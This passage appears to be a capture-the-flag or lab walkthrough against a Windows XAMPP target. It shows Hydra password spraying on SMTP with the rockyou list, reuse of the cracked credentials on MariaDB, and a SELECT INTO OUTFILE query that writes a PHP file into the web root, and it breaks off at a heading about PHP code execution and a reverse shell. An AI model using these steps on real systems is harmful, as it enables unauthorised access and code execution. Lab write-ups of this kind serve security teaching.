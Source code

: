 - 4. Hydra password spraying 

```sh
❯ hydra -l f*************** -P /usr/share/wordlists/rockyou.txt smtp://10.129.153.88
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-21 17:14:48
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking smtp://10.129.153.88:25/
[25][smtp] host: 10.129.153.88   login: f*************   password: 9***********
1 of 1 target successfully completed, 1 valid password found
```

- 5. Testing credentials on Mysql service:

```sh
❯ mysql -u f**** -p9******** -h 10.129.153.88 --ssl=0
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 10
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

- 6. So we got into the database but the ports 80 and 443 are serving a xampp service, let's see if we found a path to inject a file in the system

![alt text](/1.png)

- 7. Found the path "C:/xampp/htdocs/dasboard/".

![alt text](/2.png)

- 8. Injecting a php file via mysql in the sistem:

```sql
MariaDB [(none)]> select '<?php echo "this is a test"?>' into outfile 'C:/xampp/htdocs/dashboard/test.php';
Query OK, 1 row affected (0,251 sec)

MariaDB [(none)]> 
```
![alt text](/3.png)

- 9. PHP RCE and getting a reverse shell
